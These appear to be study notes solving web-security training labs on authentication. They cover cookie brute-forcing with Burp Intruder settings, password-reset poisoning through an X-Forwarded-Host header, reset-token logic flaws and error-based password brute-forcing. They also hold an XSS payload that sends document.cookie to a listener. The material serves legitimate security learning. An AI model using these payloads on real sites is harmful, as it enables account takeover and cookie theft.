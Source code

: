 ### Brute-forcing a stay-logged-in cookie
Cookie = Base64encode('username' + ':' + hashMD5(password))
Use intruder to bruteforce the password by sending this request: 

    GET /my-account?id=carlos HTTP/2
    Host: 0a7c00a503f932c880eb44b60027008c.web-security-academy.net
    Cookie: stay-logged-in=Y2FybG9zOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw

Set the insertion point as the value of `stay-logged-in` cookie (remember to take off the session-cookie). Use sniper attack with simple list payload type. Copy the [password list](../passwords.txt) into the payload. Add the following rules at the Payload Processing tab:

    Hash: MD5
    Add prefix: carlos
    Base64-encode

### Offline password cracking

    Make use of XSS in the comment section:
    <img src="1" onerror="fetch('http:localhost:3000/?cookie=' + document.cookie)">

    Go to the server and obtain the cookie (the cookie is constructed the same as the lab above)
    -> Base64 decode it and crack the hash using crackstation.

### Password reset broken logic

    The reset password token is not bind to a specific user
    -> resend the POST request to reset password of a valid user and change the username to 'carlos'

### Password reset poisoning via middleware

    Change the username to 'carlos' and add to the POST request to /forgot-password this header: 
    X-Forwarded-Host: exploit-0aae00af04e5894e80781b14012000b0.exploit-server.net
    -> The server will treat this host as the original host and send the reset password link to the victim's email with this host as the domain : 
    https://exploit-0aae00af04e5894e80781b14012000b0.exploit-server.net/forgot-password?temp-forgot-password-token=r6kc51tllctfof5iwoz5t0p0jmjuosph

    The victim clicks on this link which makes a GET request to the attacker's server
    -> the attacker obtains the token

### Password brute-force via password change

    Notice when entering 2 new passwords that don't match:
    - If the current password is correct -> "New passwords do not match"
    - If the current password is incorrect -> "Current password is incorrect"
    
    Change the POST request /my-account/change-password with username=carlos&current-password=2&new-password-1=2&new-password-2=3
    Bruteforce the current password and look for 1 that returns "New passwords do not match"